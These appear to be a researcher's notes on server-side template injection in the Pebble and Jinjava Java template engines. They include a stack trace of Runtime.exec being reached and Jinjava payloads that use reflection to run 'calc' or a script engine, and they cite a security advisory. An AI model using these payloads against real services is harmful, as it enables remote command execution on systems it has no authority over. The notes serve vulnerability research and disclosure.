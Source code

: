```python
a=[102,105,114,101,98,97,115,107,121,92,100,101,108,108,13,10,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1,-1]
for i in a:
    print(chr(i),end="")
    if(i==-1):
        exit()
```

调用栈

```
exec:347, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMember:100, DefaultAttributeResolver (com.mitchellbosecke.pebble.attributes)
resolve:67, DefaultAttributeResolver (com.mitchellbosecke.pebble.attributes)
evaluate:82, GetAttributeExpression (com.mitchellbosecke.pebble.node.expression)
render:31, SetNode (com.mitchellbosecke.pebble.node)
render:43, BodyNode (com.mitchellbosecke.pebble.node)
render:30, RootNode (com.mitchellbosecke.pebble.node)
evaluate:144, PebbleTemplateImpl (com.mitchellbosecke.pebble.template)
evaluate:87, PebbleTemplateImpl (com.mitchellbosecke.pebble.template)
main:22, test (com.firebasky.pebble)
```

## Jinjava

poc

```
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("")}}
```



```java
{{'a'.getClass().forName('java.lang.Runtime').methods[6].invoke(null).exec("calc")}}
```

try to find class object

测试失败。。。

```java
{% set class = ____int3rpr3t3r____.getContext().getAllFunctions().toArray()[0].getMethod().getParameterTypes()[0] %}
{% set is = class.getResourceAsStream("/Foo.class") %}
{% for I in range(999) %} {% set byte = is.read() %} {{ byte }}, {% endfor %}
```

>https://securitylab.github.com/advisories/GHSL-2020-072-hubspot_jinjava/
